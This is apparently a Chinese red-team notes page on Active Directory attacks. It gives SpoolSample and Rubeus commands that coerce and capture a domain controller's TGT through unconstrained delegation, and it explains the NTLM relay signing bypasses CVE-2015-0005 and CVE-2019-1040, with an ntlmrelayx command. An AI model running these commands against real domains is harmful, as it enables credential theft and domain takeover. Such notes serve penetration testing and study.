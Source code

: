 **非约束委派+MS-RPRN abuse**

需要以域用户运行 SpoolSample
```
SpoolSample.exe DC DM
```

使 DC 强制访问 DM 认证，同时使用 rubeus 监听来自 DC 的 4624 登录日志
```
Rubeus.exe monitor /interval:1 /filteruser:dc$
```

使用 Rubues 导入 base64 的 ticket
```
.\Rubeus.exe ptt /ticket:base64
```

此时导出的 ticket 就有 DC 的 TGT

---

### 绕过

#### CVE-2015-0005

在签名的情况底下。对于攻击者，由于没有用户 hash，也就没办法生成 keyexchangekey，虽然在流量里面能够拿到 encryptedrandomsessionkey，但是没有 keyexchangekey，也就没办法算出 exportedsession_key，也就没法对流量进行加解密。从而进行 Relay。

攻击者一旦拿到 keyexchangekey 的话，就可以进行 Relay。而 CVE-2015-0005 正好是泄漏了这个 key，因此这里单独拿出来说说。

在域内进行 NTLMRELAY 的时候，如果登录的用户是域用户，这个时候认证服务器本地是没有域用户的 hash 的，这个时候会通过 NETLOGON 把 type 1,type 2,type 3 全部发给域控，让域控去判断。并不是向域控索要域用户的 hash。那在认证之后，由于没有用户的 hash，也没有办法算出 keyexchangekey，这个时候认证服务器就会通过 NETLOGON 去找域控索要 keyexchangekey。从而算出 exportedsession_key。

但是这个漏洞就出在，不是只有认证服务器才能找域控索要 keyexchangekey，只要是机器用户来索要 keyexchangekey，域控都会给，并没有做鉴权。我们拥有一个机器用户的话,任何加入域的计算机都可以针对域控制器验证任何传递身份验证，可以去找域控索要 keyexchangekey，然后配合流量里面的 encryptedrandomsessionkey 算出 exportedsessionkey，使用 exportedsession_key 进行加解密。

该漏洞利用，在 impacket 的 `smbrelayx.py` 已经集成,不需要指定额外的参数,提供一个机器用户以及他的凭据，当发现服务端要求进行签名的时候就会自动调用

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/18.png)

---

#### CVE-2019-1040

`Drop the MIC`

此漏洞表明，即使仅删除了 MIC（即使该标志指示其存在），服务器也接受了身份验证。
```bash
# 将 SMB 中继到 LDAP 服务
impacket-ntlmrelayx -t ldaps://192.168.141.132 --remove-mic -smb2support
```

---
